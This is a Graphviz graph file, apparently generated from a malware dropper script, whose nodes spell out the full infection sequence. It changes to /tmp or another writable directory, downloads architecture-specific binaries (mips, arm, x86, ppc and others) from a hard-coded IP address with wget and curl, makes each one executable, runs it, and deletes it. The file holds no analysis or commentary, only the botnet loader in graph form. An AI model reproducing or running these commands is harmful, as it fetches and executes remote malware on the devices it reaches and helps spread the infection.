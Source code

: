 digraph {
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 10 [label="||,"];
10 [label="wget http://206.221.188.202/mipsfyfa "];
10 -> 12 [label=";,"];
12 [label="curl -O http://206.221.188.202/mipsfyfa "];
12 -> 14 [label=";,"];
14 [label="chmod +x mipsfyfa "];
14 -> 16 [label=";,"];
16 [label="./mipsfyfa "];
16 -> 18 [label=";,"];
18 [label="rm -rf mipsfyfa "];
18 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 30 [label="||,"];
30 [label="wget http://206.221.188.202/mipselfyfa "];
30 -> 32 [label=";,"];
32 [label="curl -O http://206.221.188.202/mipselfyfa "];
32 -> 34 [label=";,"];
34 [label="chmod +x mipselfyfa "];
34 -> 36 [label=";,"];
36 [label="./mipselfyfa "];
36 -> 38 [label=";,"];
38 [label="rm -rf mipselfyfa "];
38 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 50 [label="||,"];
50 [label="wget http://206.221.188.202/sh4fyfa "];
50 -> 52 [label=";,"];
52 [label="curl -O http://206.221.188.202/sh4fyfa "];
52 -> 54 [label=";,"];
54 [label="chmod +x sh4fyfa "];
54 -> 56 [label=";,"];
56 [label="./sh4fyfa "];
56 -> 58 [label=";,"];
58 [label="rm -rf sh4fyfa "];
58 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 70 [label="||,"];
70 [label="wget http://206.221.188.202/x86fyfa "];
70 -> 72 [label=";,"];
72 [label="curl -O http://206.221.188.202/x86fyfa "];
72 -> 74 [label=";,"];
74 [label="chmod +x x86fyfa "];
74 -> 76 [label=";,"];
76 [label="./x86fyfa "];
76 -> 78 [label=";,"];
78 [label="rm -rf x86fyfa "];
78 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 90 [label="||,"];
90 [label="wget http://206.221.188.202/armfyfa "];
90 -> 92 [label=";,"];
92 [label="curl -O http://206.221.188.202/armfyfa "];
92 -> 94 [label=";,"];
94 [label="chmod +x armfyfa "];
94 -> 96 [label=";,"];
96 [label="./armfyfa "];
96 -> 98 [label=";,"];
98 [label="rm -rf armfyfa "];
98 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 150 [label="||,"];
150 [label="wget http://206.221.188.202/ifyfa "];
150 -> 152 [label=";,"];
152 [label="curl -O http://206.221.188.202/ifyfa "];
152 -> 154 [label=";,"];
154 [label="chmod +x ifyfa "];
154 -> 156 [label=";,"];
156 [label="./ifyfa "];
156 -> 158 [label=";,"];
158 [label="rm -rf ifyfa "];
158 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 130 [label="||,"];
130 [label="wget http://206.221.188.202/ppcfyfa "];
130 -> 132 [label=";,"];
132 [label="curl -O http://206.221.188.202/ppcfyfa "];
132 -> 134 [label=";,"];
134 [label="chmod +x ppcfyfa "];
134 -> 136 [label=";,"];
136 [label="./ppcfyfa "];
136 -> 138 [label=";,"];
138 [label="rm -rf ppcfyfa "];
138 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 150 [label="||,"];
150 [label="wget http://206.221.188.202/ifyfa "];
150 -> 152 [label=";,"];
152 [label="curl -O http://206.221.188.202/ifyfa "];
152 -> 154 [label=";,"];
154 [label="chmod +x ifyfa "];
154 -> 156 [label=";,"];
156 [label="./ifyfa "];
156 -> 158 [label=";,"];
158 [label="rm -rf ifyfa "];
158 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 170 [label="||,"];
170 [label="wget http://206.221.188.202/mfyfa "];
170 -> 172 [label=";,"];
172 [label="curl -O http://206.221.188.202/mfyfa "];
172 -> 174 [label=";,"];
174 [label="chmod +x mfyfa "];
174 -> 176 [label=";,"];
176 [label="./mfyfa "];
176 -> 178 [label=";,"];
178 [label="rm -rf mfyfa "];
178 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 190 [label="||,"];
190 [label="wget http://206.221.188.202/shfyfa "];
190 -> 192 [label=";,"];
192 [label="curl -O http://206.221.188.202/shfyfa "];
192 -> 194 [label=";,"];
194 [label="chmod +x shfyfa "];
194 -> 196 [label=";,"];
196 [label="./shfyfa "];
196 -> 198 [label=";,"];
198 [label="rm -rf shfyfa "];
198 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 210 [label="||,"];
210 [label="wget http://206.221.188.202/fyfa "];
210 -> 212 [label=";,"];
212 [label="curl -O http://206.221.188.202/fyfa "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa "];
214 -> 216 [label=";,"];
216 [label="./fyfa "];
216 -> 218 [label=";,"];
218 [label="rm -rf fyfa "];
218 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 230 [label="||,"];
230 [label="wget http://206.221.188.202/apache2fyfa "];
230 -> 232 [label=";,"];
232 [label="curl -O http://206.221.188.202/apache2fyfa "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2fyfa "];
234 -> 236 [label=";,"];
236 [label="./apache2fyfa "];
236 -> 237 [label=";,"];
}

